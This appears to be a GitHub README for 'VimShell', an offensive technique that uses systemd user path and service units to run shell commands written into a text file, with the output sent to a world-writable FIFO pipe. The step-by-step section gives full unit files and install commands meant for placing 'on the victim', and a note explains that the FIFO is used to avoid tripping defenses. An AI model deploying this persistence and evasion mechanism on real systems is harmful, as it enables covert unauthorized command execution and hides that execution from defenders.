 # VimShell

## Description

This sequence of commands sets up an interactive shell via a text file and FIFO pipe.
systemd facilitates this interaction by redirecting the text file, `/tmp/vimsh.txt` (opened in everyone's favorite editor - `vim`)
to the input of the `sh` terminal. Using sytemd's path-based units, we're able to notify the shell
when new commands need to be executed.

The shell service file (`execshell.service`) uses:

* The `ExecStart` directive to execute the terminal shell
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `StandardInput` directive uses the regular file `/tmp/vimsh.txt` as a stream of commands to process
* The `StandardOutput` directive uses the FIFO pipe `/tmp/vimsh.out` as a stream to send command output to

The path file (`vimsh.path`) uses:

* The `PathModified` directive to monitor the input file
* The `Unit` directive to execute the shell service when the input file has been modified

## Additional Notes

* We could have used another regular text file as output instead of a FIFO pipe, but that would write all our command output
  to disk, potentially tripping defenses.
* Each command in `/tmp/vimsh.txt` must be on a separate line, just like in shell scripts (or you can use `;`)
* In order for systemd to see that a file has been updated, you must save changes to disk - merely modifying the buffer in `vim` won't do anything
  * Tip: Use `:wq` outside of "Insert" mode (hit `[Escape]` to exit this mode) to save the buffer to disk
* An excellent writeup of file redirects and executing shell commands through a file (Example 13): <https://catonmat.net/bash-one-liners-explained-part-three>

## Step by Step

1. Generate a service file to execute commands

```ini
$ cat execshell.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=Execute shell commands in the given input file

[Service]
Type=simple
StandardInput=file:/tmp/vimsh.txt
StandardOutput=file:/tmp/vimsh.out
ExecStartPre=/bin/sh -c "find /tmp/vimsh.out || mknod --mode=0666 /tmp/vimsh.out p"
ExecStart=/bin/sh
```

3. Generate a path file to execute the shell service

```ini
$ cat vimsh.path
; https://www.freedesktop.org/software/systemd/man/systemd.path.html
[Path]
PathModified=/tmp/vimsh.txt
Unit=execshell.service
```

4. Install into the systemd user folder on the victim and reload the units

```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/execshell.service ~/.config/systemd/user/
$ ln -s `pwd`/vimsh.path ~/.config/systemd/user/
$ systemctl --user daemon-reload
```

5. Start the path unit

```sh
$ systemctl --user start vimsh.path
```

6. Open up the file `/tmp/vimsh.txt` to add shell commands to, and save it when ready

```sh
$ cat /tmp/vimsh.txt
whoami
pwd
```

7. Display the FIFO pipe `/tmp/vimsh.out` to read output

```sh
$ tail -f /tmp/vimsh.out
user01
/tmp/
```
